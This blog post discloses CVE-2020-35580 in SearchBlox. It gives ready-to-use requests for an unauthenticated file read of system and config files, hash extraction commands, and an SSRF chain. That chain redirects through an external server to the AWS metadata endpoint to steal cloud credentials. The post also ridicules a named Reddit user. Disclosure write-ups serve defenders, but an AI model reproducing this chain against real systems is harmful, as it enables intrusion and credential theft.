 ```yaml
---
layout: post
title: CVE-2020-35580
categories: [general]
tags: [cve]
comments: true
---
```


I will start by saying I am not that smart. Never have been, never will be. I know when things are bad and sometimes I can translate that into being top 25 on the all time points list on Bugcrowd. Dropping things like that has never really been my style, but sometimes when I am feeling annoyed at things I see in the world I like the take it out on something else. With that said, I would love to take this opportunity to dedicate this post to a special redditor out there. You know who you are. Well, you dont. Let me give you a hint. You love stupid comments like *That's a lot of text for effectively a Burp Active Scan finding*. Cough,cough @WTF-BOOM. Congratulations! You should feel lucky that you are finally being noticed for something! Even if it is for stupid takes on things you might not understand or know much of anything about. Here's to you!

This dedication isn't actually for some silly man making comments that makes me feel the need to dedicate this to him. The real reason is folks piling on someone isn't cool. Some people are not in a good place to just ignore criticisms and it eats at them and really causes demoralizing issues for them. I am not going to expound on this, but a family member is having a terrible time because of people like you and when I was looking some details from a previous blog post I noticed your helpful comment so I re-wrote my post for you. I couldn't care less that you have crap to post about me, but just let it be known that I am better at it than you are. 

So before I write anything about the bug I found that I needed to answer several questions for somebody that I really shouldn't have to, but apparently it has become necessary.

The Aforementioned Several Questions (Just stop it Ohio State):
##### Question 1
When I decide to write a blog post, do I find a target and run Burp Active Scan and huff paint and write about what is found?
- First off great question, I am glad that you asked! As nice as paint can smell, I do not. Active scan doesn't often find things that are in scope on public bounties. I mean it's great and it sure can, but not in this scenario. And if it does, there is a 99.9999% chance that it was found prior and I don't care. Furthermore, I sure can do that. Clickjacking can be scarier than you even know. Maybe even scary enough that I will dedicate a 10 part series on it. Nice feedback.
##### Question 2
Did this issue I found without Active Scan deserve a blog post? 
- Well I am glad you asked! Applying for a CVE asks for a reference for publishing details, so yes? By the way, it has a CVE. 
<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35580>

##### Question 3
For everyone in disagreement with the answer to Question #2, did this issue I found without Active Scan deserve a blog post? 
- Well, I don't actually care, but hell yes it does. It is a previously unknown issue that needs to be written down. An issue that quite shockingly exists. I am no scientist, but my final vulnerability rating metrics  (the two that matter) were:
  ```md
  Technical complexity Rating : 0
  WTF Lulz Rating : 100
  ```
I will end my rant by saying that if I can reach just one wannabe crap poster than all of this will be worth it. Actually, writing this entertains me so either way I win.

Ok Leroy, lets do this.

I found an external web application and I immediately opened Burp Active Scanner and huffed some paint. Yes, green is the best flavor. Ha. Actually I clicked around as one who does the hacking would do. I did this until I noticed a URL that contained a **url** parameter. Adding a URL to that **url** amounted to an Open Redirect, which was still not found by Active Scanner, sad ;). Despite the url parameter being expressly reserved for URLs, I decided to add an obviously stupid choice of a file name instead of a url. I did it and while I apologize for breaking logical rules, I would do it again. Also, I don't apologize. We now have a url like the following: <https://unhappy.site.com/searchblox/servlet/FileServlet?col=9&url=/etc/passwd> and ![etc-passwd.png]({{site.baseurl}}/assets/media/posts/searchblox/etc-passwd.png)

Fantastic, a nice vulnerable system affected by a Local File Inclusion vulnerability which allowed arbitrary files to be read from the underlying operation without authentication. We are so done, submit bug and cash out, write silly blog post about another Active Scan win!

No Leroy, not that. Let's make it worse. With the perk of being able to read arbitrary files, a specific Searchblox file is our best friend.
<https://unhappy.site.com/searchblox/servlet/FileServlet?url=/opt/tomcat/webapps/searchblox/WEB-INF/config.xml&col=1>
 - *Please note that if the **col** parameter (e.g. short for collection) is not provided or if it is too large vs the number of current collections configured on the site, the file contents will not be returned.*In this config.xml file we allow Burp Active Scanner a chance to contribute to this effort. Here there were beautiful things found:
- A (Not The) Super Admin API Key
- Usernames along with Base64 encoded SHA1 password hashes

Luckily we have Burp Active Scan to tell us everything we would ever need to know, let's start with the hashes,actually we had @jreppiks (From the Twitter) who is slightly better than Active Scan with hashes (his words not mine).
1. To Obtain the actual SHA1 Hash, do the following magic:
```bash
# Base64 encoded SHA1 Hash to SHA1 Hash
echo -n "Base64encoded-SHA1-Hash" | base64 -d | xxd -c 20 | cut -d\: -f2 | awk -F' ' '{print $1}' | sed 's# ##g
```
2. Attempt to crack the hash offline with Hashcat and if it is successful it can be easily checked by logging into the application. But if you have a sick compulsion to re-enhash (re + encode + hash == re-enhash) this to see if you get the same value that you fed Hashcat with you can even do the following:
```bash
# re-enhashed Value: D7xtPXym2wO9JBiH0P6vPzIcKqc=
echo -n "CleartextPassword" | openssl sha1 -binary | base64
```

With all the hash chicanery taken care of, lets circle back to that **Super Admin API Key**. If you can imagine, this API key being an API key, allowed API calls to be made that would normally only be afforded to a **Super Admin** user. Shocking. 

So far, I have shown some "Web AppE" (e.g. Technical Term) things in the course of this post. Before we start the final attack, what actually is SearchBlox? It may just be important to get the most out of this. Searchblox is a customizable, enterprise search solution based on Apache Lucene/Elasticsearch for websites, intranets, databases and custom searches. Essentially its purpose is to replace Google's Search Appliance after it went End-of-Life to index enterprise content. With this in mind the best way to attack it may just be to attack it by using its own functionality against itself. If for no other reason, it is absolutely more fun that way. Finally, I must disclose that both Burp Active Scan and I equally contributed to this final attack, let's attack.

1. We create a new collection on the server to store the data that Searchblox indexes.
```http
POST /searchblox/rest/collection/add HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 99
Content-Type: application/json

{ "apikey" : "SHOCKER-AN-API-KEY-GOES-HERE", "colname":"bct3","coltype":"http","language":"en"}
```

2. We create a custom document instructing Searchblox what to index.
```http
POST /searchblox/api/rest/docadd HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 187

<?xml version="1.0" encoding="utf-8"?>
<searchblox apikey="SHOCKER-AN-API-KEY-GOES-HERE">
<document colname="bct3" location="http://evil.bad.site.found.by.burp.active.scanner.com/a">
</document>
</searchblox>
```

3. We configure an external Apache Web Server with the following .htaccess file:
```
# 301 FUN with my .htaccess file
http://169.254.169.254/latest
RedirectMatch "^/.*" "http://169.254.169.254/latest/meta-data/"
```
![htaccess.png]({{site.baseurl}}/assets/media/posts/searchblox/htaccess.png)

So why does all of that matter in the slightest? Well, SearchBlox is used for custom searches and can be configured so specific results are shown based on configured criteria. When it is told to index something it wants to be helpful and will. If we tell it to index content on our external server it go forth and request it. Where it gets fun is when we set up Apache to take any request it gets and redirect it back to the Searchblox AWS metadata endpoint. By doing this Searchblox indexes the specified AWS metadata and then we can search for and view it from the appliances web UI within its search results!  And what better information to be able to search for than temporary AWS credentials!
![indexed.png]({{site.baseurl}}/assets/media/posts/searchblox/indexed.png)

Nifty! Thank all that is right and holy for Burp Active Scan.

Like usual, there is undoubtedly there is a better payload/solution/attack to exploit this. If you know a better way to do it, please school me / make fun of me / troll me to tears on Twitter @hateshaped!

P.S. If it seems I am denigrating Burp Active Scan, please be assured that I love it. It is only used as the means to prove my previous statements.
